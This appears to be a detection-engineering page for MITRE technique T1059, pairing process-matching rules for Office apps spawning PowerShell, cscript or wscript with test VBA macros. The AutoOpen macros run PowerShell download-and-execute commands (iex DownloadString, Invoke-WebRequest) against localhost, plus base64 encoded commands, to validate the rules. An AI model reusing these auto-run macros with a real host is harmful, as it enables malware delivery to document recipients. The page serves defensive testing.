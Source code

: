# T1059 - Command and String Interpreter

Malicious MS Office documents may attempt to launch PowerShell through embedded VBA code to execute PowerShell commands.  

## 1. MS Office Launching PowerShell DownloadString / DownloadFile

**Description:**  VBA-enabled MS Office files are regularly leveraged to by adversaries to use PowerShell to download malicious code to execute the second stage of the attack.  

**MITRE ATT&CK Technique:** T1059.001

```jsx
Rule {
	Initiator {
		Match PROCESS {
			Include OBJECT_NAME {-v "winword.exe"}
			Include OBJECT_NAME {-v "excel.exe"}
			Include OBJECT_NAME {-v "powerpoint.exe"}
		}
	}
	Target {
		Match PROCESS {
			Include -nt_access "CREATE"
			Include OBJECT_NAME {-v "powershell.exe"}
			Include PROCESS_CMD_LINE {-v "*DownloadString*"}
			Include PROCESS_CMD_LINE {-v "*DownloadFile*"}
			Include PROCESS_CMD_LINE {-v "*DownloadData*"}
			Include PROCESS_CMD_LINE {-v "*iwr*"}
		}
	}
}
```

**Trigger(s):**

1. MS Office application launched
2. MS Office application launches PowerShell process.
3. PowerShell attempts to download remote data.

## 2.  MS Office Launching Encoded PowerShell

**Description:**  VBA-enabled MS Office files may attempt to launch base64-encoded content by PowerShell to avoid AV detections and obscure intent.

**MITRE ATT&CK Technique:** T1059.001

```jsx
Rule {
	Initiator {
		Match PROCESS {
			Include OBJECT_NAME {-v "winword.exe"}
			Include OBJECT_NAME {-v "excel.exe"}
			Include OBJECT_NAME {-v "powerpoint.exe"}
		}
	}
	Target {
		Match PROCESS {
			Include -nt_access "CREATE"
			Include OBJECT_NAME {-v "powershell.exe"}
			Include PROCESS_CMD_LINE {-v "*-e*"}
		}
	}
}
```

**Trigger(s):**

1. MS Office application launched
2. MS Office application launches PowerShell process.
3. PowerShell attempts to run encoded commands.



#### **TEST Files - Covers #1 and #2:**

[T1059.001-MS Word.docm](T1059%20-%20Command%20and%20String%20Interpreter%200331fa36083e44558e51e2755796c033/T1059.001-MS_Word.docm)

[T1059.001-MS Excel.xlsm](T1059%20-%20Command%20and%20String%20Interpreter%200331fa36083e44558e51e2755796c033/T1059.001-MS_Excel.xlsm)

**Test VBA Code:**

```jsx
Public Declare PtrSafe Sub Sleep Lib "kernel32" (ByVal Milliseconds As LongPtr)
 
Public Sub AutoOpen()

    Dim objWshell1 As Object
    Set objWshell1 = CreateObject("WScript.Shell")
    Dim psString As String
    
    '1 - VBA Launching PowerShell DownloadString
    psString = "powershell.exe -ExecutionPolicy Bypass -nologo -Command iex (New-Object Net.WebClient).DownloadString('http://127.0.0.1/NOTHING');"
    MsgBox ("1 - VBA Launching PowerShell DownloadString" + Chr(13) & Chr(10) + "MITRE ATT&CK: T1059.001" + Chr(13) & Chr(10) + Chr(13) & Chr(10) + "Command: " + psString + Chr(13) & Chr(10))
    objWshell1.Exec (psString)
    Sleep (3000)
    
    '2 - VBA Launching PowerShell DownloadFile
     psString = "powershell.exe -ExecutionPolicy Bypass -nologo -Command iex (New-Object Net.WebClient).DownloadFile('http://127.0.0.1/NOTHING');"
    MsgBox ("2 - VBA Launching PowerShell DownloadFile" + Chr(13) & Chr(10) + "MITRE ATT&CK: T1059.001" + Chr(13) & Chr(10) + Chr(13) & Chr(10) + "Command: " + psString + Chr(13) & Chr(10))
    objWshell1.Exec (psString)
    Sleep (3000)
   
   '3 - VBA Launching PowerShell DownloadData
     psString = "powershell.exe -ExecutionPolicy Bypass -nologo -Command iex (New-Object Net.WebClient).DownloadData('http://127.0.0.1/NOTHING');"
    MsgBox ("3 - VBA Launching PowerShell DownloadData" + Chr(13) & Chr(10) + "MITRE ATT&CK: T1059.001" + Chr(13) & Chr(10) + Chr(13) & Chr(10) + "Command: " + psString + Chr(13) & Chr(10))
    objWshell1.Exec (psString)
    Sleep (3000)
    
    '4 - VBA Launching PowerShell Invoke-WebRequest #1
     psString = "powershell.exe -ExecutionPolicy Bypass -nologo -Command iex (iwr -uri http://127.0.0.1 -outfile c:\\windows\\temp\\test);"
    MsgBox ("3 - VBA Launching PowerShell Invoke-WebRequest #1" + Chr(13) & Chr(10) + "MITRE ATT&CK: T1059.001" + Chr(13) & Chr(10) + Chr(13) & Chr(10) + "Command: " + psString + Chr(13) & Chr(10))
    objWshell1.Exec (psString)
   
    Sleep (3000)
    '5 - VBA Launching PowerShell Invoke-WebRequest #2
   
    psString = "powershell.exe -ExecutionPolicy Bypass -nologo -Command iex (invoke-webrequest -uri http://127.0.0.1 -outfile c:\\windows\\temp\\test);"
    MsgBox ("3 - VBA Launching PowerShell Invoke-WebRequest #2" + Chr(13) & Chr(10) + "MITRE ATT&CK: T1059.001" + Chr(13) & Chr(10) + Chr(13) & Chr(10) + "Command: " + psString + Chr(13) & Chr(10))
    objWshell1.Exec (psString)
    Sleep (3000)

    '6 - VBA Launching PowerShell Encoded Command
    psString = "powershell.exe -EncodedCommand ZQBjAGgAbwAgACIASABpACAAVABoAGUAcgBlACEAIgA="
    MsgBox ("3 - VBA Launching PowerShell Encoded Command" + Chr(13) & Chr(10) + "MITRE ATT&CK: T1059.001" + Chr(13) & Chr(10) + Chr(13) & Chr(10) + "Command: " + psString + Chr(13) & Chr(10))
    objWshell1.Exec (psString)
    Sleep (5000)

End Sub
```

## 3. MS Office Launching Other Scripts

**Description:**  VBA-enabled MS Office files may attempt to launch JavaScript and VBScript.

**MITRE ATT&CK Technique:** T1059.005, T1059.007

```jsx
Rule {
	Initiator {
		Match PROCESS {
			Include OBJECT_NAME {-v "winword.exe"}
			Include OBJECT_NAME {-v "excel.exe"}
			Include OBJECT_NAME {-v "powerpoint.exe"}
		}
	}
	Target {
		Match PROCESS {
			Include -nt_access "CREATE"
			Include OBJECT_NAME {-v "cscript.exe"}
			Include OBJECT_NAME {-v "wscript.exe"}
		}
	}
}
```

**Trigger(s):**

1. MS Office application launched
2. MS Office application launches PowerShell process.
3. PowerShell attempts to run encoded commands.

**Test VBA Code:**

```jsx
Public Declare PtrSafe Sub Sleep Lib "kernel32" (ByVal Milliseconds As LongPtr)
 
Public Sub AutoOpen()

    Dim objWshell1 As Object
    Set objWshell1 = CreateObject("WScript.Shell")
    Dim psString As String
    
    '1 - VBA Launching PowerShell EncodedCommand
    psString = "powershell.exe -ExecutionPolicy Bypass -NoExit -EncodedCommand JABTAGUAcgB2AGUAcgAgAD0AIABSAGUAYQBkAC0ASABvAHMAdAAgAC0AUAByAG8AbQBwAHQAIAAnAEUAbgBjAG8AZABlAGQAIABjAG8AbQBtAGEAbgBkACAAcgB1AG4ALgAgACAAUAByAGUAcwBzACAARQBuAHQAZQByACcA"
    MsgBox ("1 - VBA Launching PowerShell EncodedCommand" + Chr(13) & Chr(10) + "MITRE ATT&CK: T1059.007/009" + Chr(13) & Chr(10) + Chr(13) & Chr(10) + "Command: " + psString + Chr(13) & Chr(10))
    objWshell1.Exec (psString)
    MsgBox ("Complete.")
End Sub

```

#### TEST Files - Covers #3**

[T1059.007-T1059.009-MS_Excel.xlsm](Test Files/T1059.007-T1059.009-MS_Excel.xlsm)

[T1059.007-T1059.009-MS_Word.docm](Test Files/T1059.007-T1059.009-MS_Word.docm)

